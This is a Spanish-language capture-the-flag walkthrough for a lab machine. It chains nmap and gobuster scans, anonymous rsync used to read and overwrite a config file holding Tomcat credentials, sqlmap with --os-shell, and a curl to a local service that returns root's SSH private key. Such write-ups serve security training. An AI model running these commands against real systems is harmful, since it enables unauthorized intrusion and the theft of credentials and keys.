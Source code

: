 ### Tags: `rsync` `sqlmap` `getcap`

# Escaneo (*22, 80, 139, 445*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
````

![image](https://github.com/user-attachments/assets/b5443b93-8748-44d6-9843-71d2a06dde6c)


# Port80 / Gobuster

Como vimos arriba en el reporte del escaneo la web es un *ubuntu Default Page* por ende tiramos de Gobuster

```ruby
gobuster dir -u http://<IP>/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

Encontramos este directorio:

![image](https://github.com/user-attachments/assets/7e47c4c7-3b94-4b8d-95b9-3e2c77e181cd)

Si vamos en la web nos dice **403 Forbidden** y cuando hacemos `Ctrl + u` nos dice esto otro:

![image](https://github.com/user-attachments/assets/0aba8e1a-53d9-4dff-9216-6ee95cd55637)

Esto significa que actualmente estamos en el **entorno de producción** y tenemos que encontrar una manera de ir al entorno de producción. Para ello podemos consultar otros servicios. Entonces tenemos ``Rsync y 'Rsync`` se usa para **transferir** y **sincronizar** archivos entre una computadora y un disco duro externo y entre computadoras en red comparando los tiempos de modificación y los tamaños de los archivos. 
Lo que vamos a hacer ahora es verificar loa archivos del directorio `conf` y se hace de esta manera:

```ruby
 rsync -av rsync://<IP>/
```

![image](https://github.com/user-attachments/assets/3b03ee10-1fbf-4ee4-822f-ae331a0319bd)

Ahora nos metemos dentro de `Conf`

```ruby
rsync -av rsync://<IP>/Conf
```

![image](https://github.com/user-attachments/assets/143f82fd-de88-4b48-8b9e-cf4534e8d426)

Ahora lo que hacemos es **copiarnos** todos los archivos a nuestra máquina y verifiquemos si podemos obtener algo

```ruby
rsync -av rsync://<IP>/Conf ./mi_Conf
```

![image](https://github.com/user-attachments/assets/69154a29-52ff-41c4-9c94-a1af5c2d86dc)

Observando los distintos archivos, en `webapp.ini` encontramos credenciales de un **TomCat** que esta en `prod`

![image](https://github.com/user-attachments/assets/6cea61e9-e1e3-4ea2-acf2-a058c6b6e8d1)

Entonces lo que hacemos es cambiarlo a `dev` y enviarlo otra ves con el archivo cambiado 

```ruby
nano webapp.ini   #cambiar a dev
rsync -av webapp.ini rsync://<IP>/Conf/webapp.ini
```

![image](https://github.com/user-attachments/assets/073bb231-b8ba-46e9-911b-e5f0176fd0f5)

Ahora si recargamos la pagina en `/admin` podemos visualizar la web y no nos da el 403 de antes

![image](https://github.com/user-attachments/assets/a40d9cf5-1edc-48e5-9075-007c15add7d8)

# SQLMap

Capturamos la petición con Burp y lo guardamos para jugar con `sqlmap`
- `-dbs` enumere todas las bases de datos disponibles
- `--risk 3` nivel de riesgo (técnicas más agresivas y potencialmente más ruidosas)
- `--level 5` nivel de profundidad de las técnicas de explotación
- `--os-shell` Le indica a SQLmap que intente obtener un shell de sistema operativo en el servidor remoto

```ruby
sudo sqlmap -r SQL_burp -dbs --risk 3 --level 5 --os-shell 
```

Una ves nos dio la `os-shell` no entablamos una ReverShell de esta forma

![image](https://github.com/user-attachments/assets/8b500aaa-a9af-4bbd-afab-6b09be1bf00c)

![image](https://github.com/user-attachments/assets/d307da36-fa03-473f-bbb4-2f8cabe9bbcd)


# Escalada **ROOT**

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/63efa394-6cdc-4d36-8188-f87a3b2b0f7f)

Haciendo un `getcap -r / 2>/dev/null` tenemos capibility (**cap_net_raw+ep**) indica que el archivo tiene el bit de ejecución elevado (**ep**) y la capibility **cap_net_raw** asignada.

![image](https://github.com/user-attachments/assets/8acaf11c-26f0-49a6-b899-ea459a9bee17)

Lo que hacemos es tirar un `LinPeas` y observamos esto:

![image](https://github.com/user-attachments/assets/23a8f327-409a-4951-9962-67426f514288)

Entonces si hacemos un `curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12` obtenemos la id_rsa de `root`

![image](https://github.com/user-attachments/assets/f5f4b619-70d7-4bd2-a156-1dc27cc2f773)

Nos conectamos por **ssh** y listo

![image](https://github.com/user-attachments/assets/7631cb16-dbc0-4752-b81e-c7181acf2707)





